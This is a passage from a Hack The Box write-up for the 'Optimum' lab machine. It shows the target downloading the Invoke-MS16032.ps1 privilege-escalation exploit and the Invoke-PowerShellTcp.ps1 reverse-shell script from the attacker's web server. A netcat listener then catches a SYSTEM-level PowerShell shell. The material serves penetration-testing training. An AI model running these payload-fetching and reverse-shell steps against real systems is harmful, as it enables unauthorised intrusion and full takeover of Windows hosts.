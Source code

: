 We see that the files are requested from our webserver.

```
root@kali:~/htb/optimum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.8 - - [19/Nov/2018 18:03:55] "GET /Invoke-MS16032.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [19/Nov/2018 18:04:08] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```

Catch the incoming shell

```
root@kali:~/htb# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.8: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.8] 49181
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

Finally, this privesc turned out to be a pain. There is a lesson here, Metasploit is not always the easiest way to go and may not always work, even if a server is vulnerable.


